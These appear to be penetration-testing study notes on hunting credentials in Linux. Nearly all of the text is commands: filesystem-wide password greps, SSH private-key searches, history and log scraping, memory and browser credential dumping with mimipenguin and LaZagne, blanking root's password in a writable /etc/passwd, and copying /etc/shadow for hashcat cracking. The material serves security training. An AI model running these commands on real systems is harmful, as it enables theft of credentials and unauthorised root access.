 # Credential Hunting in Linux
Files 	History 	Memory 	Key-Rings
Configs 	Logs 	Cache 	Browser stored credentials
Databases 	Command-line History 	In-memory Processing 	
Notes 			
Scripts 			
Source codes 			
Cronjobs 			
SSH Keys 	


## Files
Configuration files 	Databases 	Notes
Scripts 	Cronjobs 	SSH keys


### Configuration Files
```
$ for l in $(echo ".conf .config .cfg .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#### Credentials in Configuration Files
```
$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

We can apply this simple search to the other file extensions as well. Additionally, we can apply this search type to databases stored in files with different file extensions, and we can then read those.

### Databases
```
$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Notes
```
$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts
```
$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### Cronjobs
```
$ cat /etc/crontab
$ ls -la /etc/cron.*/
```

### SSH Keys
### SSH Private Keys
```
$ grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

### SSH Public Keys
```
$ grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"`
```

### History
#### Bash History
`tail -n5 /home/*/.bash*`

Application Logs 	Event Logs 	Service Logs 	System Logs

Log File                | Description
----------------------- | ------------------------------------------------
/var/log/messages       | Generic system activity logs.
/var/log/syslog         | Generic system activity logs.
/var/log/auth.log       | (Debian) All authentication related logs.
/var/log/secure         | (RedHat/CentOS) All authentication related logs.
/var/log/boot.log      | Booting information.
/var/log/dmesg          | Hardware and drivers related information and logs.
/var/log/kern.log       | Kernel related warnings, errors and logs.
/var/log/faillog        | Failed login attempts.
/var/log/cron           | Information related to cron jobs.
/var/log/mail.log       | All mail server related logs.
/var/log/httpd          | All Apache related logs.
/var/log/mysqld.log     | All MySQL server related logs.


```
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

### Memory and Cache
**Memory - Mimipenguin**
this tool requires administrator/root permissions.
```
$ sudo python3 mimipenguin.py`
$ sudo bash mimipenguin.sh`
```

**Memory - LaZagne**
```
$ sudo python2.7 laZagne.py all`
```

### Browsers
**Firefox Stored Credentials**
```
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

**Decrypting Firefox Credentials**
```
$ python3.9 firefox_decrypt.py`
```

**Browsers - LaZagne**
```
$ python3 laZagne.py browsers`
```

# Passwd, Shadow & Opasswd
## Passwd File

Usually, we find the value x in this field, which means that the passwords are stored in an encrypted form in the /etc/shadow file. However, it can also be that the /etc/passwd file is writeable by mistake. This would allow us to clear this field for the user root so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as root.

### Editing /etc/passwd - Before
root:x:0:0:root:/root:/bin/bash

### Editing /etc/passwd - After
root::0:0:root:/root:/bin/bash

Even though the cases shown will rarely occur, we should still pay attention and watch for security gaps because there are applications that require us to set specific permissions for entire folders. If the administrator has little experience with Linux or the applications and their dependencies, the administrator may give write permissions to the /etc directory and forget to correct them.

## Opasswd
The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.

```
$ sudo cat /etc/security/opasswd
```

Looking at the contents of this file, we can see that it contains several entries for the user cry0l1t3, separated by a comma (,). Another critical point to pay attention to is the hashing type that has been used. This is because the MD5 ($1$) algorithm is much easier to crack than SHA-512. This is especially important for identifying old passwords and maybe even their pattern because they are often used across several services or applications. We increase the probability of guessing the correct password many times over based on its pattern.

## Cracking Linux Credentials
### Unshadow
```
$ sudo cp /etc/passwd /tmp/passwd.bak 
$ sudo cp /etc/shadow /tmp/shadow.bak 
$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

### Hashcat - Cracking Unshadowed Hashes
```
$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Hashcat - Cracking MD5 Hashes
```
$ hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```